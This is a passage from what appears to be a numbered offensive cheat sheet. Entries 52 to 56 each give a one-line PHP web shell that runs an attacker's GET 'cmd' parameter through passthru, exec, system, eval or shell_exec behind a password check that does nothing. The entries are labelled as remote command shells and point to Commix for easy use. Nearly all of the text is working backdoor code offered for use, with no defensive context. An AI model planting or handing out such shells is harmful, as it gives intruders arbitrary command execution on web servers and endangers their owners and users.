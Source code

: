 https://www.reddit.com/r/sysadmin/comments/3y0pad/some_ad_checks_you_should_be_running_on_a_regular/
__________
### 52. Php Simple shell, set aPasswordto access, cmd is your command: See Commix to use this easily
```
<?php if (isset($_GET['Password'])){passthru($_GET['cmd']);} ?>
```
**- web application,php,remote command shell**
#### References:

php.net/manual/en/function.passthru.php
__________
### 53. Php Simple shell, set Password to access, cmd is your command: See Commix to use this easily
```
<?php if (isset($_GET['Password'])){exec($_GET['cmd']);} ?>
```
**- web application,php,remote command shell**
#### References:

php.net/manual/en/function.exec.php
__________
### 54. Php Simple shell, set Password to access, cmd is your command: See Commix to use this easily
```
<?php if (isset($_GET['Password'])){system($_GET['cmd']);} ?>
```
**- web application,php,remote command shell**
#### References:

php.net/manual/en/function.system.php
__________
### 55. Php Simple shell, set Password to access, cmd is your command: See Commix to use this easily
```
<?php if (isset($_GET['Password'])){eval($_GET['cmd']);} ?>
```
**- web application,php,remote command shell**
#### References:

php.net/manual/en/function.eval.php
__________
### 56. Php Simple shell, set Password to access, bis your command: See Commix to use this easily
```
<?php if (isset($_GET['Password'])){shell_exec($_GET['cmd']);} ?>
```
**- web application,php,remote command shell**
#### References:
